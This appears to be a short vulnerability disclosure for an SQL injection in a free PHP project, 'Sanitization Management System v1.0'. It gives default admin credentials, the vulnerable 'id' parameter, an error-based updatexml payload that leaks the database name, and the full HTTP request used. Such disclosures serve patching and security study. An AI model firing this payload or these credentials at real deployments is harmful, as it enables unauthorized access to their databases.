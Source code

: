 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: tpaer

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-sms/admin/?page=user/manage_user&id=

Vulnerability location: /php-sms/admin/?page=user/manage_user&id=, id

dbname =sms_db,length=6

[+] Payload:   /php-sms/admin/?page=user/manage_user&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id


```sql
GET /php-sms/admin/?page=user/manage_user&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/195978007-16a814e1-e5a8-42a7-aaf5-a4244c5f3085.png)
